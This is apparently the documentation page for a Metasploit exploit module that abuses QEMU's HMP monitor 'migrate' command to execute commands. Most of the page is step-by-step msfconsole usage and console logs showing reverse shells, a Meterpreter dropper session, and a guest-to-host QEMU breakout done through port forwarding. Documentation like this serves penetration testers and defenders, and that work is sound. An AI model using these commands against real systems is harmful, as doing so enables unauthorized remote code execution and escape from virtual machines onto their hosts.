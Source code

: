 ## Vulnerable Application

This module uses QEMU's Monitor Human Monitor Interface (HMP)
TCP server to execute system commands using the `migrate` command.

This module has been tested successfully on QEMU version 6.2.0
on Ubuntu 20.04.

Note: The `migrate` command cannot spawn processes for QEMU
running on Windows systems.


## Installation Steps

Download and install [QEMU](https://www.qemu.org/download/).


## Verification Steps

Start QEMU and monitor HMP service using TCP:

```
qemu-system-aarch64 -M virt -monitor tcp:0.0.0.0:4444,server,nowait -serial mon:stdio -nographic
```

1. `msfconsole`
1. `use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec`
1. `set rhosts [host]`
1. `set rport [port]`
1. `set target [target]`
1. `run`
1. You should get a session


## Options


## Scenarios

### Unix Command Target

```
msf > use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rhosts 172.16.191.240
rhosts => 172.16.191.240
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rport 4444
rport => 4444
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set lhost 172.16.191.192
lhost => 172.16.191.192
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > run

[*] Started reverse TCP double handler on 172.16.191.192:4444 
[*] 172.16.191.240:4444 - Running automatic check ("set AutoCheck false" to disable)
[+] 172.16.191.240:4444 - The target appears to be vulnerable. QEMU monitor HMP service is running.
[*] 172.16.191.240:4444 - Sending payload (128 bytes) ...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RDx8lJn8owvPaWYr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\nRDx8lJn8owvPaWYr\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.191.192:4444 -> 172.16.191.240:41054 ) at 2022-02-05 23:30:49 -0500

id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1002(wireshark)
```

### Linux Dropper Target

```
msf > use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rhosts 172.16.191.240
rhosts => 172.16.191.240
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rport 4444
rport => 4444
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set target 2
target => 2
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set target "Linux (Dropper)" 
target => Linux (Dropper)
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.240:4444 - Running automatic check ("set AutoCheck false" to disable)
[+] 172.16.191.240:4444 - The target appears to be vulnerable. QEMU monitor HMP service is running.
[*] 172.16.191.240:4444 - Sending payload (178 bytes) ...
[*] Sending stage (989032 bytes) to 172.16.191.240
[*] 172.16.191.240:4444 - Command Stager progress - 100.00% done (849/849 bytes)
[*] Meterpreter session 1 opened (172.16.191.192:4444 -> 172.16.191.240:41050 ) at 2022-02-05 23:24:56 -0500

meterpreter > getuid
Server username: user
meterpreter > 
```

### QEMU Breakout

The HMP TCP service is reachable from emulated devices, even when the service is
bound to the local network interface only (ie, `-monitor tcp:127.0.0.1:4444`), as
all network traffic from the emulated network adapter is routed via the QEMU host.

As such, it is possible to escape QEMU from a session within an emulated device
(10.0.2.15) and gain a session on the QEMU host (10.0.2.2).

```
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : debian-9-13-0-mipsel.local
OS           : Debian 11.2 (Linux 5.10.0-10-4kc-malta)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > ipconfig 

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : enp0s11
Hardware MAC : 52:54:00:12:34:56
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.0.2.15
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5054:ff:fe12:3456
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fec0::5054:ff:fe12:3456
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > portfwd add -l 1234 -p 4444 -r 10.0.2.2
[*] Local TCP relay created: :1234 <-> 10.0.2.2:4444
meterpreter >
Background session 1? [y/N]
msf exploit(multi/handler) > use exploit/multi/misc/qemu_monitor_hmp_migrate_cmd_exec
[*] Using configured payload cmd/unix/reverse
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > check
[*] 127.0.0.1:1234 - The target appears to be vulnerable. QEMU monitor HMP service is running.
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > set lhost 172.16.191.192
lhost => 172.16.191.192
msf exploit(multi/misc/qemu_monitor_hmp_migrate_cmd_exec) > run

[*] Started reverse TCP double handler on 172.16.191.192:4444 
[*] 127.0.0.1:1234 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:1234 - The target appears to be vulnerable. QEMU monitor HMP service is running.
[*] 127.0.0.1:1234 - Sending payload (128 bytes) ...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Rl19l7hvy8EO5hPz;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Rl19l7hvy8EO5hPz\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.16.191.192:4444 -> 172.16.191.240:41056 ) at 2022-02-06 12:54:42 -0500

uname -a
Linux ubuntu 5.13.0-27-generic #29~20.04.1-Ubuntu SMP Fri Jan 14 00:32:30 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
